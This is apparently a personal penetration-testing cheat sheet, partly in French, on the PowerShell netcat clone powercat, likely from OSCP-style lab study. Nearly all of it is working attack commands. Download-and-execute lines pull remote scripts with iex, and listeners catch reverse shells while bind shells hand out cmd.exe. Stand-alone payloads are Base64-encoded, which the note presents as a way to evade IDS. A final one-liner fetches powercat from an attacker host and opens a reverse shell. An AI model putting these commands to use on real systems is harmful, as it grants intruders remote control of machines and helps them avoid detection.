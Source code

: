 
# Powercat

#Tool/PowerCat

```bash
$ wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 -O powercat.ps1
```


## Install

On kali, `powercat` can be installed with:

```bash
$ apt install powercat
```

and is located in `/usr/share/windows-resources/powercat/powercat.ps1`

It can be transfered to a windows box with [file transfers](../toolbox/file_transfers.md)

If the target machine is connected to the Internet, we can do the same with a remote script by once again using the handy `iex` cmdlet as follows:

```powershell
PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

## Usage

Load it first :

```powershell
PS C:\Users\Offsec> . .\powercat.ps1
```

Then , test if it is known :

```powershell
PS C:\Users\offsec> powercat
```

You must select either client mode (`-c`) or listen mode (`-l`).

## netcat like

`netcat` en powershell :) https://github.com/besimorhino/powercat
```powershell
. .powercat.ps1
Powercat -c
```

## Powercat File Transfers
#FileTransfert/powercat

run a `netcat` listener :

```bash
sudo nc -lnvp 443 > receiving_powercat.ps1

listening on [any] 443 ...

connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 63661
```

Then send a file :

```powershell
PS C:\Users\Offsec> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## Powercat Reverse Shells

#Shell/Reverse/powercat

run a `netcat` listener :

```bash
sudo nc -lvp 443

listening on [any] 443 ...
```

Then on the windows box :

```powershell
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe
```

## Powercat Bind Shells

#Shell/Bind/powercat 

The listener :

```powershell
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe
```

Then connect :

```bash
nc 10.11.0.22 443

Microsoft Windows [Version 10.0.17134.590]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec>
```


## Powercat Stand-Alone Payloads

#Tool/powercat/Embedding

`powercat` can also generate stand-alone payloads. In the context of `powercat`, a payload is a set of powershell instructions as well as the portion of the `powercat` script itself that only includes the features requested by the user

```powershell
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1

PS C:\Users\offsec> ./reverseshell.ps1
```

It’s worth noting that stand-alone payloads like this one might be easily detected by IDS.

To overcome this problem, make use of PowerShell’s ability to execute Base64 encoded commands for encoding :

```powershell
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

`-e` : encodage base64

Then execute it :

```powershell
PS C:\Users\offsec> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAU........AAgACA
```

(copy/paste the content of file `encodedreverseshell.ps1`)

Then the listener :

```bash
sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 43725

PS C:\Users\offsec>
```


NB:

`-E` means -EncodedCommand. c'est un encodage Base64

Pour encoder :

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("'Ma chaine de caracteres'"))
```

Pour décoder :

```powershell
[System.Text.Encoding]::Unicode.GetBytes([System.Convert]::FromBase64String('AAAAAAAA'))
```






## powercat

#Shell/Reverse/powercat 

```
$ cp /usr/share/windows-resources/powercat/powercat.ps1 .
$ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

```
$ nc -nvlp 4444 
```

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.191:8080/powercat.ps1');powercat -c 192.168.119.191 -p 4444 -e cmd" 2>&1
```


